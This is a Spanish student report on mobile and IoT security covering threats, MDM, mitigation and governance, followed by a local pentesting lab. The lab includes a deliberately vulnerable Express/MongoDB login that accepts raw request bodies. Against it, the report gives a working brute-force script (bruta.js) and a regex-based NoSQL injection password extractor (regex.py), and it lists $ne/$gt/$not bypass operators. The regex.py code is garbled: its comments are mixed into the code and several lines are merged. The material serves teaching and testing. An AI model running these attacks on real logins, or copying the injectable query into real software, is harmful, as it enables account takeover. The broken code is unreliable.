# Vulnerabilidades en dispositivos móviles 

Los dispositivos móviles ,al igual que en otros dispositivos electrónicos que se usan a diario,  son igualmente susceptibles a diferentes amenazas, resultando que un gran porcentaje de  los smartphones son objetivos de ciberataques hoy en día. Estos ataques suceden por el  mero desconocimiento de los riesgos o la falta de importancia que se le da a las  vulnerabilidades,siendo algunas de estas:   
- No tener antivirus   
El no tener antivirus/sistema de defensa anti malware deja desprotegido al  dispositivo. Con programas especializados se asegura que los dispositivos móviles  tengan una protección ante amenazas, hay que tener en cuenta que son “mini  ordenadores” en el sentido amplio de la palabra   
- Ausencia de un protocolo para la instalación de aplicaciones   
Un usuario puede descargar en el dispositivo móvil diferentes aplicaciones sin que él  quiera que puedan provocar brechas de datos   
- Políticas de uso de los dispositivos   
Educar y formar a las personas sobre el correcto uso de los dispositivos es  fundamental para que eviten amenazas por su cuenta. Tener equipos que sepan  prevenir riesgos y/o mitigar ataques   
- Falta de protocolos de conexión de redes desconocidas   
Un dispositivo móvil se puede conectar a diferentes redes, las cuales si son nuevas  pueden ser inseguras, pudiendo llevar a robos de información   
- Falta de consciencia   
El personal de la empresa no cualificado es la principal fuente de ataques a  dispositivos .Se deben contar con empleados especializados en el sector de la  ciberseguridad para evitar brechas de datos   
(EALDE, 2021) 

# Vulnerabilidades del IoT  

Los dispositivos relacionados con el IoT van desde routers hasta cámaras inteligentes. Su  seguridad es un factor crítico ya que no sólo manejan datos, sino que pueden participar en  otros procesos operativos diferentes. Siendo las principales vulnerabilidades de estos  dispositivos:   
- Credenciales por defecto   
Muchos dispositivos iot se integran con contraseñas comunes/simples y no se  cambian   
- Autenticación débil   
Siguiendo con el anterior punto, las contraseñas por defecto y/o débiles facilita que  los atacantes accedan con scripts automatizados   
- Mala gestión de actualizaciones   
El código puede contener errores que los atacantes pueden aprovechar si no hay  actualizaciones que los reparen regularmente   
- Falta de cifrado   
Algunos dispositivos usan protocolos como http o telnet sin cifrar, siendo inseguros.  Estas fallas de implementación de protocolos en la red conllevan comunicaciones  inseguras, permitiendo ataques como MITM  
- Seguridad mínima integrada   
Por costes o diseño, muchos dispositivos iot no tiene controles básicos como  cortafuegos, control de acceso robusto, capacidad de registrar eventos, lo que los  convierte en puertas de entrada a una red   
(casmar, 2025) 

# Conexiones de malware a dispositivos iot 

Los dispositivos móviles ,como ya se mencionó antes, pueden ser infectados por diversos  tipos de malware que se conectan al dispositivo permitiendo al atacante obtener información  o control sobre el dispositivo.   
- Troyanos   
Entran en los móviles silenciosamente por medio de correos, sms,redes wifi,...Su  objetivo es dejar paso a otros malware que roban información o dejen inutil el  dispositivo   
- Ransomware   
Malware que cifra los datos del dispositivo y exige un rescate por dichos  datos,normalmente en bitcoins   
- Botnets   
Malware que forma parte de una clase de ataque masivo, convirtiendo al dispositivo  en parte de una red controlada   
- Phishing   
Suplantando alguna empresa cercana o una identidad de algún conocido intentan  por diversos métodos obtener beneficios monetarios    
(móvil, 2025) 

En aplicaciones que se conectan a otros lugares fuera de la red de la empresa, el malware  puede interceptar las peticiones enviadas desde el dispositivo, capturando credenciales,  tokens,... En un entorno en el cual el login se realiza a una api(node.js), un malware con  permisos suficientes podría capturar username y password antes de que lleguen al servidor 

## Sniffing 

El sniffing es una técnica que consiste en capturar y analizar paquetes de datos que viajan  en una red. No es un malware dentro de un dispositivo, pero es un vector de ataque que  puede comprometer la información si esta no está protegida, y la misma red sirve como  puente.Cuando un teléfono móvil se conecta a una red wifi no segura, un atacante puede  usar herramientas de sniffing para interceptar comunicaciones sin cifrar. Las herramientas  pueden escuchar el tráfico a menos que usen cifrados o protocolos seguros(https, vpn,...). 
(Rinaldi, 2017)   
En escenarios donde las comunicaciones no están cifradas, un atacante en la misma red  puede llevar a cabo técnicas de sniffing para capturar paquetes con información relevante.  Si la api fuera expuesta en una red sin cifrado, un atacante podría interceptar paquetes o  peticiones que se envíen al servidor y obtener credenciales de acceso En ataques reales, el sniffing se usa como técnica previa al uso de malware, permitiendo a  un atacante recopilar información. Una vez obtenida dicha información, el malware puede  usarla para automatizar ataques o mantener persistencia en los dispositivos. Por eso la  combinación de malware y sniffing previo supone un riesgo elevado ya que comprometer el   
dispositivo móvil puede otorgar acceso indirecto al control de dispositivos iot ,sensores y  diferentes sistemas 

# Soluciones de seguridad para dispositivos móviles  

Para proteger a los dispositivos móviles y, por ende, a los usuarios, se han ideado a lo largo  del tiempo diversas soluciones de seguridad frente a diferentes amenazas. Las soluciones  abarcan configuraciones de los dispositivos, medidas preventivas , herramientas de  gestión,...   
- Medidas de seguridad   
	- Autenticaciones   
	Es muy recomendable activar funciones como 2FA, o configurar contraseñas  seguras para el acceso físico a dispositivos   
	- Actualizaciones   
	Los dispositivos de los clientes o de las empresas se deben actualizar  frecuentemente para corregir fallos que puedan tener y que se hayan  encontrado   
	- Gestión de permisos   
	Revisar los permisos que pide cada aplicación y evitar aplicaciones que  pidan permisos innecesarios. También se deben evitar redes wifi poco fiables  ya que los atacantes pueden usarlas como puente, y también se deben cifrar  las comunicaciones   
	- Copias de seguridad   
	Para evitar pérdidas de datos por ataques, se deben hacer copias de seguridad periódicas para minimizar dichas pérdidas.   
(Incibe, 2022)   
- Programas de seguridad   
	- Mobile device management   
	Permite administrar y configurar políticas de seguridad en todos los dispositivos móviles de una red u organización desde una consola central.  Esto incluye el bloqueo remoto de dispositivos, cifrados, gestión de contraseñas,configuraciones de aplicaciones,...   
	- Mobile threat defense   
	Puede detectar y prevenir amenazas como malware, tráfico malintencionado,intentos de acceso no autorizado,...   
(ivanti, 2025) 

# Gestión de dispositivos móviles 

La gestión de dispositivos móviles es un enfoque de seguridad y administración que permite  a una organización controlar, supervisar y proteger dispositivos corporativos, como  teléfonos de empresa, portátiles,... por medio de políticas, y configuraciones. Se debe  configurar de tal manera que no solo gestione actualizaciones, sino que también garantice  la seguridad de los datos y apps de la empresa, permitiendo acciones como el bloqueo,  borrado remoto, contraseñas obligatorias,...   
(IBM, 2025)  
La ISO 27001 es un estándar internacional que define los requisitos para establecer  ,implementar ,mantener y mejorar sistemas de gestión de seguridad de la información. La  norma obliga a las organizaciones a aplicar medidas de seguridad para reducir los riesgos  de robos o filtraciones. La inclusión de MDM (mobile device management) es muy útil para  el cumplimiento de la iso:   
- Permite la aplicación de una política de dispositivos móviles que puede establecer  medidas de seguridad para los dispositivos   
- Permite gestionar el inventario y las propiedades con mayor facilidad, siendo útil  para poder identificar qué dispositivos tienen o no acceso a más o menos  información. También, al poder gestionar diversos dispositivos, permite también  configurar la seguridad de los mismos, como contraseñas o cifrados, o incluso  restricciones.   
(ManageEngine, 2022) 

# Impacto de explotación de vulnerabilidades  

Un riesgo se mide como la combinación de probabilidad de que una amenaza explote una  vulnerabilidad y el impacto potencial que tendría dicha explotación, por ejemplo, afectando a  la confidencialidad, integridad y/o disponibilidad de los datos.

| Vulnerabilidad | Amenaza | Probabilidad | Impacto | Riesgo |  
|---------------|---------|--------------|---------|--------|  
| App sin protección contra muchos intentos fallidos de login | Fuerza bruta (bruta.js) | Alta | Alto | Alto |  
| App sin validación de entradas | Inyección NoSQL ($ne, $gt, $in, $regex– inyeccion.py) | Alta | Muy alto | Crítico |  
| Autenticación basada solo en HTTP | Bypass de login regex (regex.py) | Media | Alto | Alto |  
| API sin límite de peticiones / control de peticiones | Ataque de carga (carga.py) | Alta | Medio | Alto |  
| Sistema sin protección contra enumeración | Enumeración de usuarios (enumeracion.py) | Media | Medio | Medio |  
| Uso incorrecto de operadores MongoDB en autenticación | Bypass de autenticación con $not, $eq (login.py) | Alta | Muy alto | Alto |  
| API sin cifrado ni control de tráfico | Sniffing de peticiones | Media | Alto | Alto |  
| Sensor IoT / backend desactualizado | Explotación de vulnerabilidades conocidas | Media | Alto | Alto |

(TemplarCiber, 2022)   
En los escenarios, la probabilidad de explotación es elevada debido a la ausencia de  controles básicos de seguridad como validación de entradas, limitación de internos, y  protección frente a inyecciones nosql. El impacto de estos ataques es crítico para aquellos  que permiten el bypass completo de la autenticación, ya que comprometen directamente la  confidencialidad e integridad del sistema, permitiendo accesos no autorizados. En entornos  reales, las vulnerabilidades podrían llevar a fugas de información, control de sistemas,  denegaciones de servicios,... 

# Metodologías de ataque 

## Malware 

El malware es uno de los principales vectores de ataque contra diversos dispositivos, ya  que se introduce en el sistema por medio de la instalación de apps maliciosas, enlaces  fraudulentos, archivos infectados,... Una vez se ejecute, el malware puede realizar  diferentes acciones como el robo de credenciales,recopilar información personal de la  víctima ,cifrado de datos, … La metodología del malware se basa en comprometer el  dispositivo de la víctima ,dándole una gran eficacia principalmente cuando el usuario no  sabe que se ha instalado un malware. Aún así, diversas instituciones señalan que este tipo  de amenazas pueden ser detectadas por medio de soluciones de seguridad, erradicadas  con actualizaciones del sistema y evitadas con buenas prácticas.   
(Anon., 2024) 

## Sniffing 

El sniffing es una técnica de espionaje de red la cual consiste en capturar paquetes de  datos que circulan por una red desprotegida.A diferencia del malware, el sniffing no necesita  instalar nada en el dispositivo de la víctima, solo explota debilidades en la red, como wifi  pública. El sniffing es muy eficaz porque es pasivo y difícil de detectar. Un atacante puede  interceptar cookies, datos personales, contraseñas,... sin que el usuario lo sepa. Debido a  eso, el sniffing depende de la información que el usuario transmite, y se reduce su eficacia  si se usan protocolos seguros.   
(CiberSafety, 2026) 

Objetivamente el malware es un mayor riesgo potencial directo ya que permite un control  prolongado una vez metido en el sistema atacado. Pero se debe de instalar en el  dispositivo, es decir, una acción del usuario, y es más susceptible a ser detectado por el  propio usuario o por programas como antivirus. Por otro lado , el sniffing es más sigiloso y  fácil de ejecutar en redes inseguras, aunque está limitado a la información de la transmisión. En conclusión, el malware es una amenaza persistente a largo plazo mientras que el sniffing  es efectivo cuando hay comunicaciones desprotegidas

## Comparación eficacia 

La eficacia del malware y del phishing varía dependiendo del contexto en el que se  produzca el ataque. El malware es más efectivo en entornos corporativos, donde el atacante  busca persistencia y, una vez instalado, puede ejecutar acciones continuas como el robo de  credenciales, el acceso a datos sensibles, o la propagación a otros sistemas en la red,  mientras que el sniffing es más eficaz en escenarios donde hay redes públicas o poco  protegidas en las que el atacante puede interceptar tráfico , aunque su alcance es limitado  y depende de que las comunicaciones no estén cifradas. En comparación, el malware  supone un mayor impacto a largo plazo, mientras que el sniffing es una técnica puntual o  inicial pero efectiva en entornos con comunicaciones inseguras. Por ello, ambos ataques  deben de ser mitigados con técnicas de seguridad adaptadas para cada uno 

# Soluciones de seguridad 

Para proteger los datos de usuarios de diversos dispositivos móviles y sus sistemas, es  necesaria la aplicación de soluciones/medidas de seguridad ante diferentes ataques. Las  medidas o estrategias de seguridad que se deben implementar no solo son configuraciones  locales, sino que también consiste en mecanismos centralizados de gestión, los cuales  permiten mantener control sobre los dispositivos de una red.   
Una de las principales soluciones es el MDM, el cual proporciona una plataforma para  aplicar medidas de seguridad uniformemente en los dispositivos de una red. Los  administradores pueden configurar diversos requerimientos, como requerimientos respecto  a contraseñas, activar cifrados,controles de instalaciones,... permitiendo así reducir la  superficie de ataque. Además, MDM se puede automatizar, para agilizar configuraciones  manuales repetidas, de tal manera que se minimiza el esfuerzo de los equipos responsables  permitiéndoles centrarse en otras características   
(Díez, 2023) 

La efectividad de las soluciones de seguridad dependen en gran medida dependiendo del  contexto en el que se implementan. En organizaciones con dispositivos corporativos  gestionados, el mdm permite aplicar diversos controles de seguridad en los dispositivos de  la misma red. En entornos con dispositivos personales, el mdm debe adaptarse usando  contenedores que separen la información corporativa de la personal. Al mismo tiempo, en  sectores industriales o sanitarios, el mdm es muy adecuado para garantizar el cumplimiento  normativo, control de accesos, minimizar riesgos,... Estas posibilidades de cambio  demuestran que el mdm es una solución flexible y eficaz cuando se implementa  correctamente y ajustándose a diferentes necesidades 

# Estrategias de mitigación 

Para reducir la probabilidad de éxito de los ataques descritos en la práctica, es fundamental  implementar una serie de estrategias de mitigación que abordan tanto la debilidad del  software como el comportamiento del usuario. En dispositivos IoT, la mitigación basica de  vulnerabilidades consiste en:   
- Cambiar las contraseñas predeterminadas por robustas   
- Mantener actualizados los sistemas    
- Segmentar la red para aislar los dispositivos conectados a la misma  
- Desactivar servicios innecesarios para reducir la superficie de ataque   
- Monitorización continua de la red con sistemas de detección de intrusos   
(Admin, 2025)   
En el caso de dispositivos móviles, las estrategias o medidas que se deben seguir consisten  en:   
- Mantener actualizados los sistemas operativos   
- Mantener actualizadas las aplicaciones   
- Activar 2FA   
- Evitar redes públicas   
- Usar VPN   
- Formar a los usuarios con buenas prácticas   
(Tecnocosas, 2024) 

Estas medidas no solo reducen la superficie de ataque, sino que también pueden llegar a  minimizar la influencia de diferentes ataques. Las organizaciones deben adoptar estrategias  avanzadas que aumentan la resiliencia frente a diferentes ataques, por ejemplo, una de las  más recurrentes, el modelo zero trust(el cual se basa en no confiar automáticamente en un  usuario o dispositivo). El enfoque zero trust permite verificar continuamente la identidad y la  seguridad de cada dispositivo antes de darle acceso a información. Otra estrategia útil es la  segmentación de la red, la cual puede limitar los movimientos de un atacante en caso de  infectar algún dispositivo. También se debe poder detectar comportamientos sospechosos,  por lo que sistemas de detección de comportamientos que vienen con mdm permite detectar  actividades maliciosas y reaccionar a tiempo.    
Además ,aparte de las medidas normalmente usadas, las organizaciones deben adoptar  estrategias orientadas a la resiliencia de la organización ,basándose en la capacidad de la  empresa de resistir, detectar, responder y recuperarse de los ataques. En este contexto, el  modelo zero trust no solo sirve como prevención, sino que también sirve como método de  resiliencia ya que es capaz de limitar el alcance del ataque. Por otro lado, la integración de  respuestas ante incidentes automáticos (por ejemplo usando MDM),permite aislar  dispositivos comprometidos, quitar accesos,... Esta respuesta resulta especialmente útil  ante ataques automatizados y persistentes ,en los cuales es necesaria una alta velocidad  de reacción.   
(Cloudflare, 2022)   
(Serrano, 2024) 

# Propuesta de gobernanza 

La gobernanza de la seguridad es un aspecto a tener en cuenta para que no solo las  organizaciones puedan reaccionar ante los ataques, sino que también establezcan una  dirección estratégica clara. La gobernanza abarca:   
- Definición de políticas   
- Asignación de responsabilidades   
- Gestión de riesgos   
- Supervisión continua   
(Squirrel, 2024) 

La gobernanza no solo se limita a implementar controles, sino que también implica  establecer un marco sólido de estrategias, políticas y supervisión ejecutiva. Por ejemplo, el  NIST CSF define la función de la gobernanza para integrar la ciberseguridad en la gestión   
de riesgos empresarial, estableciendo la política, la supervisión y la asignación de roles  dentro de una organización   
(Tecnología, 2024) 

Una buena gobernanza de la seguridad permite reaccionar ante vulnerabilidades ,ataques, y  anticiparse a ellos y gestionarlos.Esto garantiza que los dispositivos móviles se gestionen  de manera coherente con los objetivos de seguridad y que se alinee con los objetivos de la  organización y con las mejores prácticas. Se debe aplicar globalmente en toda la  organización, sin limitarse al ámbito técnico y se debe establecer una estructura clara de  roles y se debe crear un comité de seguridad que permita la toma de decisiones efectivas Para que la gobernanza de la seguridad móvil y la gestión de dispositivos sea  efectiva(usando mdm) , debe integrarse en la estrategia empresarial que se haya decidido  seguir. Esto implica que las decisiones de seguridad de dispositivos móviles no se limiten  solo al ámbito técnico, sino que también formen parte de la planificación estratégica de la  organización. En este modelo de gobernanza, el responsable actúa como puente entre los  equipos técnicos responsables de la seguridad y la dirección de la empresa. Esto implica  que dicho puente traduce los riesgos de seguridad en impactos en el negocio(Estabilidad,  continuidad, integridad,reputación, pérdidas económicas,...), permitiendo priorizar riesgos en  base a su impacto potencial. También, el uso en diferentes ámbitos de MDM dentro de la  gobernanza aporta visibilidad sobre la seguridad de diversos dispositivos, permitiendo a  diferentes sectores de la empresa tomar diferentes decisiones y mejorar los sistemas de  seguridad. Así, la gobernanza en la empresa deja de consistir en un conjunto de controles  aislados y pasa a ser un nuevo componente que se alinee con los objetivos o estrategias  empresariales. 

# Proyecto

Se debe tener configurado MongoDB para poder llevar a cabo las pruebas de ataque en un  entorno controlado:  
  
  
## node -v   
Para “encender” el entorno seguro(localhost) hay que introducir los siguientes comandos en  el cmd.  
img3  
  
Para comprobar que se ha instalado y que se tiene en la versión correcta 

## Código para arrancar el localhost 

Para que el login funcione y se conecte a la base de datos de mongo db, con sus usuarios-contraseñas   
const express = require('express');
const cors = require('cors');
const { MongoClient } = require('mongodb');

const app = express();
app.use(express.json());

app.use(cors({
origin: 'http://localhost:4200', // Solo tu frontend
methods: ['GET', 'POST', 'PUT', 'DELETE'],
credentials: true
}));

const MONGO_URI = 'mongodb://localhost:27017';
const DB_NAME = 'pentesting_db';

let db;

MongoClient.connect(MONGO_URI, { useUnifiedTopology: true })
.then(client => {
db = client.db(DB_NAME);
console.log('Conectado a MongoDb');
app.listen(3000, () => {
console.log('Servidor Node.js en http://localhost:3000');
});
})
.catch(error => console.error('Error conectando a MongoDB:', error));
app.post('/api/login', async (req, res) => {
const { username, password } = req.body;
if (!db) {
return res.status(500).json({ message: 'Base de datos no conectada' });
}
const user = await db.collection('users').findOne({ username, password });
if (user) {
res.json({ message: 'Login exitoso', token: 'fake-jwt-token' });
} else {
res.status(401).json({ message: 'Credenciales incorrectas' });
}
});

## pentesting-frontend  

### Component.html  
   
### App.component.ts   
 
### App.module.ts  
 
## Ng serve  
 
 
 
 

## Ataques 

### Operadores mongo db 

En mongodb hay operadores que permiten construir condiciones avanzadas en las  consultas que se llevan a cabo. Dichos operadores, permiten filtrar documentos en base a  relaciones o patrones específicos en cada campo   
- $eq → Coincide con documentos en los que el valor de un campo es igual al valor  que se especifique   
- $ne → Devuelve documentos en los cuales el valor del campo es diferente al campo  dado   
- $gt → Selecciona documentos donde el valor del campo es mayor al valor  seleccionado   
- $not → Se usa para invertir la condición de otro operador, es decir, que devuelve  documentos en los que el valor o valores especificado/s no se cumplen • $regex → Permite hacer búsquedas por patrón usando expresiones regulares dentro  de un campo de texto, util cuando no se conoce el valor pero si que se conoce un  patrón   
- $in → Coincide si el valor está en una lista de valores dada   
(Anon., 2025)   
(C.A., 2024) 

### bruta.js 

Ataque de fuerza bruta que toma elementos de una lista hecha en el propio código(no un  wordlist) para pasar un login de una página web, en este caso, localhost. Básicamente se  comprueba que la API no limita el numero de intentos fallidos ni bloquea cuentas. Esto  permite probar automáticamente diferentes combinaciones usuario-contraseña definidos  previamente hasta encontrar credenciales validas. 

Instala con: npm install node-fetch@2 

```javascript
const fetch = require('node-fetch');
const URL = 'http://localhost:3000/api/login';

const usuarios = ['admin', 'usuario1', 'vini', 'maria'];

const contraseñas = [
'password',
'123456',
'admin123',
'admin',
'12345',
];

// Función que prueba combinaciones usuario-contraseña
async function loginIntento(usuario, contraseña) {
try {
// Intento de login
const response = await fetch(URL, {
method: 'POST',
headers: {
'Content-Type': 'application/json',
},
body: JSON.stringify({
// Envía la petición POST al servidor
username: usuario,
password: contraseña
})
});

const data = await response.json();
return data;

} catch (error) {
console.error(`Error: ${error}`);
return null;
}
}

async function ataqueFuerzaBruta() {
console.log('[*] Iniciando Ataque de Fuerza Bruta con Node.js');
console.log('-'.repeat(50));

// Bucle que prueba todas las combinaciones posibles
for (const usuario of usuarios) {
for (const contraseña of contraseñas) {
const resultado = await loginIntento(usuario, contraseña);

// Si el login es exitoso
if (resultado && resultado.message === 'Login exitoso') {
console.log(`[✓] Contraseña encontrada!`);
console.log(`Usuario: ${usuario}`);
console.log(`Contraseña: ${contraseña}`);
console.log(`Token: ${resultado.token}`);
return;

} else {
console.log(`[✗] ${usuario} / ${contraseña}`);
}
}
}

console.log('-'.repeat(50));
console.log('[*] Ataque completado');
}

ataqueFuerzaBruta();
```

- El “const URL” es para indicar la dirección en la que se va a llevar a cabo el  ataque   
- El “const usuarios” son los usuarios que se van a probar en el ataque(No se  saben en un primer lugar los de las bases de datos, por lo que deberá ser  más larga en un ataque real)   
- “const contraseñas” es para probar varias contraseñas   
 

### regex.py 

Código el cual,en el local host, se usa para pasar un login. Sin embargo,no usa una lista  como el anterior ejemplo. Sino que , ya conociendo el usuario, quiere adivinar la contraseña  poco a poco introduciendo caracteres y “viendo la respuesta” de la página (Respuestas  pueden llegar a ser incluso tiempos de carga en algunos casos).   
```python
import requests 
import string 
Url a la que va dirigida el ataque 
url = "http://localhost:3000/api/login" 
headers = {'Content-Type': 'application/json'} 
Características del usuario y contraseña siendo el username el objetivo del ataque username = "admin" 
y el espacio de password para rellenar con la contraseña adivinada 
password = "" 
print(f"[*] Extrayendo contraseña del usuario: {username}")
Bucle principal del código en el cual se ejecuta constantemente hasta que ya no  haya caracteres válidos 
while True: 
Esta parte indica si se ha encontrado algún carácter correcto 
 found = False 
 for char in string.printable: 
Se excluyen caracteres para evitar errores que se puedan generar  if char in ['*', '+', '.', '?', '|', '$']: 
 continue 
  
 payload = { 
 "username": username, 
 "password": {"$regex": f"^{password}{char}"} 
 } 
 Se envía la solicitud post al json construido 
 response = requests.post(url, json=payload, headers=headers)  Añade una dependencia en base a la respuesta del servidor, interpretado como  que el prefijo coincide con el caracter de la contraseña correcto 
 if response.status_code == 200: 
Se añade el caracter correcto y se vuelve a empezar con el segundo caracter  password += char 
 print(f"[+] Carácter encontrado: {char} | Contraseña hasta ahora:  {password}") 
 found = True 
 break 
 Esta parte se ejecuta cuando respuesta del servidor indica que ningún carácter  coincide, es decir, que la contraseña se ha sacado 
 if not found: 
 print(f"[✓] Contraseña completa: {password}") 
 break
```

